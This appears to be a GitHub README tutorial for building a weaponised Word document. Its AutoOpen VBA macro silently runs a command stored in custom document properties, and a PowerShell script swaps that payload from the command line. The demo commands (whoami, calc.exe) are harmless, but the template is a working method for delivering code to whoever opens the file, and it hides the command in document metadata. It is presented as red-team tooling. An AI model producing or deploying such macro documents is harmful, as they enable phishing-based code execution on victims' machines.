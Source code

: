 # Office Macros With Hidden Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell. The ultimate goal was to be able to quickly edit a word document and modify payloads from the command line. Although creating the document template is still a manual procedure, changing the payload can be made easier by using PowerShell. 

## 1. Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.CustomDocumentProperties("cmd").Value
    strArgument = doc.CustomDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

5. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

6. Click the `X` to close the Macro dialog box. 
![Create Macro](images/11.png)

7. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

8. Select the `Custom` tab. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docm`. 
![Create Macro](images/12.png)

## 2. Modify the payload with PowerShell

```powershell
# Initiate Word
$Word = New-Object -ComObject Word.Application
# Set Word to be visible
$Word.Visible = $true
# Open the template document (Modify the directory if different)
$Document = $Word.Documents.Open('C:\temp\cmd_exec.docm')

$binding = "System.Reflection.BindingFlags" -as [type];        
$CustomProperties = [System.__ComObject]$Document.CustomDocumentProperties
            [Array]$propertyName = "cmd"
            [Array]$propertyValue = "calc.exe"
            #Get property value
            $myProperty = [System.__ComObject].InvokeMember("Item", $binding::GetProperty, $null, $customProperties, $propertyName)
            $myPropertyValue  = [System.__ComObject].InvokeMember("value",$binding::GetProperty,$null,$myProperty,$null);
            #Set property value
            [System.__ComObject].InvokeMember("Value",$binding::SetProperty,$null,$myProperty,$propertyValue)
```